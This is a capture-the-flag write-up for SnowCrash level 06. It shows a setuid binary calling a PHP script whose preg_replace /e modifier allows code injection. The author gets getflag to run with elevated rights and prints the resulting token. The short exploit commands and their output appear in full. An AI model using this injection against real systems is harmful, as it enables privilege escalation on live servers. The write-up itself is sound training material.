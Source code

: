 # Level 06

Level contains two files a setuid binary and a php script:

```bash
level06@SnowCrash:~$ ls -l
total 12
-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php
level06@SnowCrash:~$ file level06
level06: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xaabebdcd979e47982e99fa318d1225e5249abea7, not stripped
level06@SnowCrash:~$ ./level06
PHP Warning:  file_get_contents(): Filename cannot be empty in /home/user/level06/level06.php on line 4
level06@SnowCrash:~$
```

It seems like the suid binary runs the php script, let's see what the script does:

```php
#!/usr/bin/php
<?php
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
$r = x($argv[1], $argv[2]); print $r;
?>
```

The PHP script defines two functions, `y($m)` and `x($y, $z)`, which manipulate text. The x() function reads the content of a file specified by the first command-line argument, processes it using regular expressions, and then prints the result. The regular expressions replace dots with " x " and "@" with " y", while also converting "[" to "(" and "]" to ")" in the file's content. The final processed content is output to the console.
What caught my attention is the `preg_replace` function, it uses the modifier `e` which means that the replacement string is treated as PHP code and executed, this means that we can execute arbitrary PHP code by passing it as the second argument to the script, let's try it:

```bash
level06@SnowCrash:~$ echo '[x ${`getflag`}]' > /tmp/eee
level06@SnowCrash:~$ ./level06 /tmp/eee
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1

level06@SnowCrash:~$
```

and we got the token !
